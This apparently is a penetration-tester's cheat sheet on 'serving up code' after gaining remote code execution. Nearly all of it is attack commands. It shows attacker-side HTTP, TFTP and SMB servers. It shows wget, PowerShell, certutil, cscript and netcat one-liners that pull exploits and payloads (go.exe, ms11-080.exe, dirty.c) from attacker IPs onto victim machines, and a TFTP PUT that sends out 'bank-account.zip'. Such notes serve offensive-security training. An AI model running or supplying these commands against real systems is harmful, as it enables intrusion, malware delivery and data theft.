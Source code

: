 # Serving up code
Once we have RCE, we can sometimes want to serve up files or code to download and execute
on the victim (e.g., webshell)

#### HTTP
```
sudo service apache2 start
/var/www/html

wget http://192.168.1.42/go.exe
```

#### SIMPLE HTTP
```python SimpleHTTPServer.py```

Will serve up on port 8000 in the folder you run the script from

#### TFTP
```
atftpd --daemon --port 69 /tftp

cd /tftp 
touch incoming 
chmod 777 incoming

tftp -i 10.11.0.185 GET test.txt
tftp -i 10.11.0.185 PUT bank-account.zip incoming
```

#### SMB
```
smbserver.py [sharename] /tmp/smbserve/

Dir \\192.168.1.48\sharename
\\192.168.1.48\sharename\go.exe
```





# File Transfer - Windows
``tftp -i 10.11.0.185 GET test.txt``

```cscript wget.vbs http://10.11.0.158/ms11-080.exe -O C:\lec\ms11-080.exe```
#### Powershell 2
```(new-object System.Net.WebClient).Downloadfile("http://10.11.0.185/accesschk.exe", "C:\lec\accesschk.exe")```

#### Powershell 3
```Invoke-WebRequest "http://10.11.0.130/adfsys.exe" -OutFile "adfsys.exe"```

#### SimpleSMBServer
```smbserver.py lecon /var/www/html```

#### SimpleHTTPServer
```python -m SimpleHTTPServer```



# File Transfer - Linux
```wget http://10.11.0.158/dirty.c -O /tmp/dirty.c```

```scp root@10.11.0.158:~/Downloads/dirty.c .```

#### netcat

```
nc -lnvp <LPORT> < <FILE>
nc <RHOST> <RPORT> > <FILE>
```








# More -  Windows lolbins
[BitsAdmin ](https://lolbas-project.github.io/lolbas/Binaries/Bitsadmin/)

```certutil -urlcache -split -f "http://<LHOST>/<FILE>" <FILE>```
